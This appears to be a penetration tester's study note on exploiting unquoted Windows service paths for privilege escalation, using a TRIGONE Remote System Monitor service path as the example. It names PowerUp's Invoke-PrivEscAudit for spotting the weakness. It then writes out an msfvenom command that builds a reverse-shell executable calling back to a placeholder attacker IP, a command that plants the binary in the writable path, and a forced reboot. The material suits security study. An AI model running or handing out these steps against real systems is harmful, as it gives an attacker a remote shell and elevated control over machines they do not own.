 
### Overview
---
Service binaries that contain spaces in the path but lack quotations can be exploited by placing malicious binaries earlier in the path (assuming the path is writeable).


### Exploitaiton Example
---
- ``Invoke-PrivEscAudit`` from ``PowerUp.ps1`` can output potential exploitation vectors, including unquoted service binaries with writeable paths.

>[!info]
>``PowerUp.ps1`` provides scripts to exploit this, but this example will do it manually.

![[Pasted image 20230216090754.png]]

**Manual Exploitation:**
- Create a reverse shell binary that exploits the spaces within the service path.
```
# Vulnerable Service Path
C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe
```

```shell
### On Attacker ###
# Create Reverse Shell Binary
msfvenom -p windows/shell/reverse_tcp -f exe LHOST=<attacker_ip> LPORT=<listening_port> > Remote.exe

### Move binary to victim however you want ###
```

```powershell
### On Victim ###
# Copy binary to vulnerable path
cp Remote.exe "C:\Program Files (x86)\TRIGONE\Remote.exe"

# Restart computer if you don't have permissions to restart the service
shutdown /r /t 3
```
